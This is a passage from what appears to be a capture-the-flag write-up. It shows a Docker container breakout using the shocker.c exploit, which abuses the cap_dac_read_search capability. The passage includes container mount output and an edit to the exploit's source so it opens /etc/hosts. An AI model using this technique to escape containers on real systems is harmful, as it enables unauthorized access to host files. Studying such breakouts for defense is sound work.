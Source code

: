 ### shocker

#### Background

[This blog post](https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3) from 2014 shows how to abuse this capability using a program posted to OpenWall named `shocker.c`. This program abuses the `cap_dac_read_search` capability to read files from the host system.

#### POC

I’ll download a copy of the original script [here](http://stealth.openwall.net/xSports/shocker.c). I’ll need to make one change. The binary needs to open a file that’s on the host and mounted into the container. `mount` will show the mounts:

```

root@c150397ccd63:~# mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/SJ7L7M7IXKP2LYEKIS4QTXWMB2:/var/lib/docker/overlay2/l/V56NO5353KGHEUPU2G64UYICZS:/var/lib/docker/overlay2/l/57PYNL7JWAUZ2ZEF5CM7JKTH2Y:/
var/lib/docker/overlay2/l/K4DCIUMHCNYT3RFVQSR7KCCWLJ:/var/lib/docker/overlay2/l/LLNI6XKILGAYVK3VSFPKZQC4NI,upperdir=/var/lib/docker/overlay2/5de14f4c9bdeaf0f8a19d03adcc2d28ccc97655bb5bc5f888490c184d2ad70dc/diff,
workdir=/var/lib/docker/overlay2/5de14f4c9bdeaf0f8a19d03adcc2d28ccc97655bb5bc5f888490c184d2ad70dc/work,xino=off)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,name=systemd)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
...[snip]...
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
/dev/mapper/ubuntu--vg-ubuntu--lv on /app/uploads type ext4 (rw,relatime)
/dev/mapper/ubuntu--vg-ubuntu--lv on /etc/resolv.conf type ext4 (rw,relatime)
/dev/mapper/ubuntu--vg-ubuntu--lv on /etc/hostname type ext4 (rw,relatime)
/dev/mapper/ubuntu--vg-ubuntu--lv on /etc/hosts type ext4 (rw,relatime)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
...[snip]...

```

I’ll use `/etc/hosts`, updating line 166:

```

        // get a FS reference from something mounted in from outside
        if ((fd1 = open("/etc/hosts", O_RDONLY)) < 0)
                die("[-] open");

```

Now I’ll compile that with `gcc` and upload it to Talkative. If I didn’t update the file to one that exists (the default it `/.dockerinit` which isn’t in this container), it’ll error out:
